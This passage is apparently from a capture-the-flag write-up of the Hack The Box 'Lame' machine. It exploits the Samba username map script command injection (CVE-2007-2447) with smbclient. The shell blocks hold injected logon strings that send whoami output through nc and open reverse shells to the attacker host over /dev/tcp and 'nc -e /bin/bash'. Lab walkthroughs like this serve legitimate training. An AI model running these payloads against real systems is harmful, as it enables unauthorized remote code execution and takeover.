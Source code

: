 <br />
<img src="{{ site.img_path }}/lame_writeup/Lame_05.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lame_writeup/Lame_06.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lame_writeup/Lame_07.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

If I continue with the other service available on port **445**, which is a **Samba** implementation, I find with `searchsploit` that the version is also vulnerable to possible **Command Execution**. If I analyze the available exploit I find the **CVE**, and with this code I search the **Internet** for some resource available on **[Github](https://github.com/n3rdh4x0r/CVE-2007-2447){:target="_blank"}** that allows me to investigate a little more of the vulnerability. In the article **[CVE-2007-2447: Remote Command Injection Vulnerability](https://www.samba.org/samba/security/CVE-2007-2447.html){:target="_blank"}**, it informs me that it is possible to execute commands by passing parameters as arguments to `/bin/sh`. But first I must execute the command correctly before testing the vulnerability, so I turn to an article on the Internet, **[smbclient Command Examples in Linux](https://www.thegeekdiary.com/smbclient-command-examples-in-linux/){:target="_blank"}**, which gives me the information I need.

```bash
searchsploit samba 3.0
searchsploit samba 3.0.20
# 'Username' map script' Command Execution ?
searchsploit -x unix/remote/16320.rb

smbclient -L 10.129.140.158 -N -c "dir"       # :(
# tmp, opt [Folders]
smbclient //10.129.140.158/tmp -N -c 'dir'    # :)
```

<br />
<img src="{{ site.img_path }}/lame_writeup/Lame_08.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lame_writeup/Lame_09.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lame_writeup/Lame_10.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now that I was able to find the correct command to inject commands, I first try sending a trace from the victim machine to my attacking machine, and the test is successful. At the moment of getting a **Reverse Shell** I don't succeed in the first attempt, maybe due to some special characters or maybe due to the use of certain binaries, but with `nc` I can get the name of the user under which I am executing commands, and it turns out to be the one with maximum privileges. After several attempts I can access to the machine through a **Reverse Shell**. When I made this machine some time ago I had problems with `smbclient`, but there is an article in **[Reddit](https://www.reddit.com/r/oscp/comments/fg956k/kali2020_htb_smbclient_protocol_negotiation/){:target="_blank"}** that helped me at the time to execute commands without problems, dfdf.

```bash
sudo tcpdump -i tun0 icmp -n
smbclient //10.129.140.158/tmp -N -c 'logon "/=`nohup ping -c 2 10.10.14.62`"'                      # :)

sudo nc -nlvp 443
smbclient //10.129.140.158/tmp -N -c 'logon "/=`nohup bash -i >&/dev/tcp/10.10.14.62/443 0>&1`"'    # :(
smbclient //10.129.140.158/tmp -N -c 'logon "/=`nohup whoami | nc 10.10.14.62 443`"'                # :)
smbclient //10.129.140.158/tmp -N -c 'logon "/=`nc -e bash 10.10.14.62 443`"'
smbclient //10.129.140.158/tmp -N -c 'logon "/=`nc -e /bin/bash 10.10.14.62 443`"'                  # :)

```